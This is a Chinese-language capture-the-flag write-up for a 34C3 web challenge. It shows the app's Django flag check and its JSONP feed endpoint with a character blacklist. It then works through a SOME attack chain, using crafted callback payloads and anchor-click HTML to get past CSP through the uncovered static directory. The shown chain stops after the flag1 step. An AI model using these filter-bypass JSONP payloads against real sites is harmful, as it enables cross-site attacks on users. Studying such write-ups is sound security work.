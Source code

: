 1、flag获取首先有一个前置条件
```
def get_flag(req, num):
    if req.user.username == 'admin' and req.META.get('REMOTE_ADDR') == '127.0.0.1':
        with open('/asdjkasecretflagfile%d' % num) as f:
            return f.read()
    else:
        return '34C3_JUSTKIDDINGGETADMINANDACCESSFROMLOCALHOSTNOOB'
```

后一个条件由于经过nginx反代，所以没什么用，主要问题是前一个。

req.user.username并不是通过django本身的session设置的，所以即使我们获取到settings中的SECRET_KEY也没有意义，也就是说，我们只能通过bot获取flag。

2、feed页面存在jsonp接口，但是有大把多过滤，忽略了能用上的``{}.$`这几个
```
@require_safe
def feed(req):
    posts = get_user_posts(req.user)
    posts_json = json.dumps([
        dict(author=p.author.username, title=p.title, content=p.content)
        for p in posts])
    type_ = req.GET.get('type')
    if type_ == 'json':
        resp = HttpResponse(posts_json)
        resp['Content-Type'] = 'application/json; charset=utf-8'
    elif type_ == 'jsonp':
        callback = req.GET.get('cb')
        bad = r'''[\]\\()\s"'\-*/%<>~|&^!?:;=*%0-9[]+'''
        if not callback.strip() or re.search(bad, callback):
            raise PermissionDenied
        resp = HttpResponse('%s(%s)' % (callback, posts_json))
        resp['Content-Type'] = 'text/javascript; charset=utf-8'
    return resp
```

3、整站的返回头是通过django middleware 添加，但是static目录是直接通过nginx处理的，所以没有CSP头


题目思路完整了，我们就需要构造可以利用的攻击链

无论我们怎么获取flag，我们都需要通过操作static页面来执行js传出，否则就会被CSP拦截，所以我们必须通过多个页面来相互操作修改页面，才能实现我们的需求。

这里需要用到一个在HCTF2017中提到过的攻击方式，叫做SOME.

关于SOME的细节可以看以前的博客
[https://lorexxar.cn/2017/11/15/hctf2017-deserted-world/](https://lorexxar.cn/2017/11/15/hctf2017-deserted-world/)

这里就不细讲了，通过SOME，我们可以通过执行js来操作另一个页面中的dom

执行流程大致如下
1、打开页面，通过a标签的的click来实现页面的跳转，跳转至localhost（nginx）下
```
<a id="aa" href="http://localhost/post/{post1}"></a>
<script src="/feed?type=jsonp&amp;cb=document.getElementById`aa`.click``,console.log"></script>
```
2、先拿flag1，两次点击，一个打开flag1页面，一个跳转到下一个js页面
```
<a id="aa" href="{post2}" target="_blank"></a>
<a id="bb" href="/flag1"></a>
<script src="/feed?type=jsonp&cb=document.getElementById`aa`.click``,document.getElementById`bb`.click``,console.log"></script>
```


  [1]: http://static.zybuluo.com/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: http://static.zybuluo.com/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: http://static.zybuluo.com/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: http://static.zybuluo.com/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: http://static.zybuluo.com/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: http://static.zybuluo.com/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png